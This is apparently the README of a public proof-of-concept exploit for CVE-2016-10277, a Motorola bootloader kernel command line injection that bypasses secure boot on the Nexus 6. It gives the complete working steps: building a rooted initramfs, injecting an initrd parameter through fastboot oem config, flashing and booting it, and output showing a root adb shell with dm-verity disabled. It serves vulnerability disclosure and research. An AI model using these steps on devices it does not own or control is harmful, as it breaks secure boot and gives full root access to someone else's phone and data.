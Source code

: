 # PoC for initroot: Nexus 6 Motorola Bootloader Kernel Command Line Injection Secure Boot Bypass (CVE-2016-10277) #

By Roee Hay / Aleph Research, HCL Technologies 

Steps:

1. Use the commited `initroot.cpio.gz`, or produce your own:

```
$ cd <initramfs folder>
$ find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../initroot.cpio.gz
$ cd ..
```

Our commited initramfs contains an AOSP userdebug root partition with adb running as root by default. It will not ask for authorization. In addition, dm-verity is disabled on the system partition.

2. `fastboot oem config fsg-id "a initrd=0x11000000,<initroot.cpio.gz size>"`
3. `fastboot flash foo initroot.cpio.gz`
4. `fastboot continue`
5. if you use our initramfs, `adb shell` will now give you a root shell:

```
$ adb shell
shamu:/ # id 
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
```

**Note**: This vulnerability may affect other Motorola devices. A different initramfs will be needed. A different physical address of initrd (0x11000000 on Nexus 6) may vary as well.

Blog post with details is available [here](https://alephsecurity.com/2017/05/23/nexus6-initroot/)




